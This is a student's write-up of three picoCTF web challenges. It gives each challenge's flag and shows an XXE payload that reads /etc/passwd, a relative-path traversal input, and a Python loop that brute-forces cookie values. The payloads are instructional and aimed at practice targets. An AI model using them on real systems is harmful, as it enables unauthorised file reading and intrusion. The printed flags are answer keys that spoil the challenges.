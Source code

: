 # SOAP

**Flag:** `picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}`

**Solution:**
- The challenge gives a website whose `/etc/passwd` file is to be read with *XML external entity injection* (XXE).
- I opened a browser in Burp Suite and put in the provided URL & clicked on the third Details button.
- This sent a POST request, which I sent to Repeater.
- To perform XXE injection, I had to change the following script in the Request tab according to it.
```
<?xml version="1.0" encoding="UTF-8"?>
<data>
  <ID>
    3
  </ID>
</data>
```
XXE Payload:
```
< ?xml version="1.0" encoding="UTF-8"? >
< !DOCTYPE foo [ 
	<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
	] >
	<data><ID>
		&xxe;
	</ID></data>
```

- On hitting Send, the flag was visible in the last line of the Response section.
![soap1.png](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/picoCTF/images/soap1.png?raw=true)

**Concepts learnt:**
1. XML External Entity Injection which is a vulnerability which exploits the processing of XML data, and the XML code for XXE injection payload
2. The contents of the `/etc/passwd` file which is info on users 

**Mistakes & other approaches:**
- I had to turn Intercept Off & then On to receive the request from the site.

**Resources:**
- https://portswigger.net/web-security/xxe

# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_6db46514}`

**Solution:**
- The main hint in the challenge was the fact that the website was filtering *absolute* file paths. 
- I noticed the .txt files listed on the website given. http://saturn.picoctf.net:<port\>.
- ![forbidden paths](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/picoCTF/images/webex1.JPG?raw=true)
- By using the knowledge of absolute vs relative paths, I remembered relative paths don't start with a `/`(root directory), and that other directories in the path can be represented by `../` .
- To get the file, I entered `../../../../flag.txt` as the description said the file was in `/usr/share/nginx/html/`.


**Concepts learnt:**
1.  I recalled the use of `..` to symbolise parent directory.

**Mistakes & other approaches:**
- First, I tried editing the URL directly with the path provided and it didn't work. 
- I also tried entering the given files names on the home page, but they seemed to be not be found

# Cookies

**Flag:** `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`

**Solution:**
- The challenge provides a website with an input box for types of cookies. So, I entered various cookie names such as snickerdoodle, chocolate chip, gingerbread, crinkle, etc and observed the *cookie* values change from 0 to ~25 in the Application tab, where -1 was the initial value.
- I realised a specific value of the cookie gives the flag. I installed *Burp Suite (Community Edition)* for the purpose of checking the response upon changing cookie value one by one. 
- I sent  `mercury.picoctf.net:29649/check` to Intruder, set a payload around the cookie value using `Cookie: name=§-1§`. I changed *Payloads* type to numbers and set a range from 0 to 20 and started the attack.
![cookies1.JPG](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/picoCTF/images/cookies1.JPG?raw=true)
 
 - The output had columns like the request number, payload, length, response received and status code. I then went to settings and scrolled to the `Grep - Match` section and added `picoCTF{` to the search queries to find the flag in the responses. It was found in payload 18 and the length here also differed from the other payload values. 
![cookies2.JPG](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/picoCTF/images/cookies2.JPG?raw=true)

**Concepts learnt:**
1. Learnt the use of Burp Suite for taking in requests, changing them and generating the required responses.

**Mistakes & other approaches:**
- After finding the value of the cookie, it could also be directly edited in the website to get the flag there.
- A Python script can be used instead of installing Burp Suite, where there's a loop from 1 to 20 to change the value of the cookies and get the response using `import requests`. 
```python
#!/bin/python3
import requests
url = 'http://mercury.picoctf.net:29649/check'
for i in range(20):
    cookies = {'name': str(i)}
    r = requests.get(url,cookies=cookies)
    if 'picoCTF' in r.text:
        print(r.text)
        break
```
The output in the terminal was the code when the cookie is changed to the value having a response with the required flag:
```
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```

**Resources:**
- https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/settings
- https://pypi.org/project/requests/
